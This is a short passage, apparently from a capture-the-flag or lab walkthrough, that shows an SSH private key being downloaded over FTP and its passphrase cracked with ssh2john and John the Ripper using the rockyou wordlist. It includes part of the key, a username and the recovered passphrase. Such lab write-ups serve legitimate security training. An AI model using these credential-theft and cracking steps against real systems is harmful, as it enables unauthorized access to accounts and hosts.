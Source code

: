 ```
oWRC0uHns8gn9qdeXbjCZx2l+VzLT5Lk/19zBZsBtFIyd5Mj+he+BkDPVMvUNKwY
97Y5v6F6PbJrAVXvjGo6k6+cIXr97Wdojotw+xR/vUdGhjOclZPmjUbDmFFLELIK
ZcWgXCOCNdP4Unrh2c96PYaY/GqmeGl0C206A8t4dbfe/pr1wjklWWRXp+O02QJ+
o3c/PC6Za8IUca8VvmpAT0M1sAiMFTeDWLMSL6Z1CxH1cLVGpSf7ITRFIiDHLGDq
v6fSxb2wsx+qDnk4tO25bXq37HqqSBNw0/NyjOWe//5QE0Q5PWuoEVP/huCKcFHb
mTDaYO2KwZXCse7derYJ0eWpKiiKcmGwmi57m+uvTka+o8xA928/xw==
-----END RSA PRIVATE KEY-----

```

```
user=errorcauser
```

```
mget id_rsa
```

```
mget id_rsa [anpqy?]? y
229 Entering Extended Passive Mode (|||15518|)
150 Opening BINARY mode data connection for id_rsa (1743 bytes).
100% |****************************************************************************************************************************************|  1743        2.95 MiB/s   
226 Transfer complete.
1743 bytes received in 00:00 (32.09 KiB/s)

```

```
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

```
john id_rsa.hash -w=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cupcake          (id_rsa)     
1g 0:00:00:00 DONE (2024-11-19 14:24) 4.000g/s 2496p/s 2496c/s 2496C/s yankees..cheche
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

```
 passphrase=cupcake
```

==Port Forwarding==
